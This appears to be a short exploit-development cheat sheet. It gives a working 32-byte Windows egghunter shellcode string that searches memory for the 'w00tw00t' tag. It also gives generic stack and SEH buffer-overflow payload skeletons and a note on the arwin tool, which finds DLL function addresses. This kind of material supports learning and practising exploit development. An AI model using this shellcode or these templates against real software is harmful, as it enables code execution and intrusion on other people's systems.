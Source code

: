 


EggHunter

> Basically this will loop through the memory and searches for the string “w00t"(\x77\x30\x30\x74). Once it finds the string or the egg "w00t" one after the other "w00tw00t" in memory, it will break out of the loop and continous to execute the shellcode placed immediatley after "w00tw00t".

{% highlight ruby %}
Egg "w00t" = "\x77\x30\x30\x74"

"\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x02\x58\xCD\x2E\x3C\x05\x5A\x74\xEF\xB8\x77\x30\x30\x74\x8B\xFA\xAF\x75\xEA\xAF\x75\xE7\xFF\xE7"
{% endhighlight %}
-----



Basic Exploit skeleton

{% highlight ruby %}
# Stack Based Overflow
buffer = junk + ret + shellcode
buffer = "A"*1340 + "B"*4 + "C"*378

# SEH Based Overflow
buffer = junk + nseh + seh + shellcode
buffer = "A"*1500 + "B"*4 + "C"*4 + "D"*554
{% endhighlight %}
-----


ARWIN Utility

> Handy program capable of extracting the address of a specific functions within a given DLL, utility can be downloaded from <a href="http://www.fuzzysecurity.com/tutorials/expDev/tools/arwin.rar">Fuzz Security</a>.

{% highlight ruby %}
# Provides the address of the function within the library
arwin <Library Name> <Function Name>
Eg: arwin Kernel32 LoadLibraryA
{% endhighlight %}
-----
